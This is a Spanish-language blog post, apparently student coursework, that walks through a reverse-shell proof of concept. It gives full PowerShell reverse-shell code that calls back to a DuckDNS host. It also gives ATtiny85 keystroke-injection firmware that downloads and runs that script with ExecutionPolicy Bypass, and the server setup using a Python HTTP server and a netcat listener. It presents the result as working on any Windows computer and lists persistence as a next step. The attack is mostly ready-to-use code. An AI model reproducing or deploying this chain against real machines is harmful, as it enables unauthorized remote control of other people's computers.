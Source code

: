 ```yaml
---
author: Inge Gatovsky
pubDatetime: 2024-10-15T07:15:46.746Z
title: Pruena de Concepto Reverse Shell
slug: prueba-de-concepto-reverse-shell
featured: true
draft: false
tags:
  - sistemas-programables
  - attiny85
  - arduino
  - python
  - windows
  - ubuntu
  - powershell
description: Prueba de Concepto Attiny85.
---
```


## Objetivo

El objetivo de esta prueba de concepto es obtener una shell inversa en un sistema Windows y enviarla a un servidor remoto.

## Desarrollo

### Configuración del servidor 🖥️

Usamos la misma configuración de la [Tarea 998, Configuración del servidor remoto](tarea-998.md#configuración-del-servidor-remoto), solo que ahora activamos otro puerto en el firewall de Ubuntu:

```bash
sudo ufw allow 8181
```

este puerto servirá para la descarga de nuestro script en el sistema Windows.

### Configuración de Script Rshell

Crea una carpeta llamada `scripts` en el directorio `$HOME` de tu usuario y dentro de esta carpeta crea un archivo llamado `unicorn` con el siguiente contenido:

```powershell
# $HOME/scripts/unicorn
$client = New-Object System.Net.Sockets.TCPClient('dominio.duckdns.org', 8080)
$stream = $client.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i)
    $sendback = (iex $data 2>&1 | Out-String )
    $sendback2  = $sendback + 'PS ' + (pwd).Path + '> '
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
    $stream.Write($sendbyte,0,$sendbyte.Length)
    $stream.Flush()
};
$client.Close();
```

donde `dominio.duckdns.org` es el dominio que se creó en [DuckDNS](https://www.duckdns.org/), y `8080` es el puerto que está escuchando en el servidor remoto

**instala** `screen` en el servidor con el comando:

```bash
sudo apt -y install screen
```

**Crea** una sesión de `screen` con:

```bash
screen -S pythonServer
```

Ahora inicia un servidor HTTP en el puerto 8181 con el siguiente comando:

```bash
python3 -m http.server 8181
```

Presiona `Ctrl + A + D` para salir de la sesión de `screen`, el servidor seguirá corriendo en segundo plano. este pequeño servidor servirá para que nuestro Attiny85 pueda descargar el script `unicorn` y ejecutarlo.

> Puedes volver a la sesión de `screen` con el comando `screen -r pythonServer`

### Configuración de Attiny85 🧮

Usando el siguiente código en el Attiny85, se puede descargar el script `unicorn` y ejecutarlo en el sistema Windows:

```cpp
#include <DigiKeyboard.h>

void openRun() {
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);  // Windows + R
    delay(500);
}

void runCommand(const char *command) {
    DigiKeyboard.println(command);
    delay(500);
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    delay(2000); 
}

void typeCommand() {
    DigiKeyboard.println("Invoke-WebRequest -Uri 'http://dominio.duckdns.org:8181/scripts/unicorn' -OutFile 'C:\\Windows\\Temp\\unicorn.ps1';");
    DigiKeyboard.delay(2000);
    DigiKeyboard.println("powershell -ExecutionPolicy Bypass -File C:\\Windows\\Temp\\unicorn.ps1");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
}

void setup() {
    DigiKeyboard.update();

    openRun();
    runCommand("powershell");

    delay(500);

    typeCommand();
    }

void loop() {}

```

_donde `dominio.duckdns.org` es el dominio que se creó en [DuckDNS](https://www.duckdns.org/)_

El código ino lo debes cargar al Attiny85 similar a como se muestra [aquí](tarea-998.md#configuración-de-arduino-ide-2x)

### Configuración de NetCat 🐱

Usa el comando `nc` en el servidor para escuchar en un puerto específico, por ejemplo el puerto 8080:

```bash
nc -lvnp 8080
```

donde `-l` es para escuchar, `-v` es para verbose, `-n` es para no resolver nombres de dominio y `-p` es para especificar el puerto.

> Ahora puedes usar el Attiny85 en cualquier computadora con Windows y obtendrás una shell inversa en el servidor remoto.

### Verificación 👀

Para verificar que la shell inversa se ha obtenido correctamente, se puede ejecutar el siguiente comando en el servidor remoto:

```bash
ls
```

y se debe obtener una salida del directorio de Windows:

![Reverse Shell](../../assets/images/sisprog/IMG_8769.jpg)

se creó un archivo `hack.txt` en el sistema Windows con el comando:

```bash
echo "Hackeado por el Gatovsky" > C:\\Users\\Jorda\\Desktop\\hack.txt
```

y se verificó que se creó correctamente con el comando:

```bash
cat C:\\Users\\Jorda\\Desktop\\hack.txt
```

![Hack](../../assets/images/sisprog/IMG_8770.JPG)

## Proximos Pasos

- [ ] Encriptar la comunicación entre el cliente y el servidor
- [ ] Crear un payload en Atttiny85 para ejecutar la shell inversa en un sistema Windows
- [ ] Crear un servicio de Windows para ejecutar la shell inversa en segundo plano

(Pasos opcionales si no me reprueba el profe)

---

Nota: Ninguna PC fue lastimada en la realización de esta prueba de concepto.
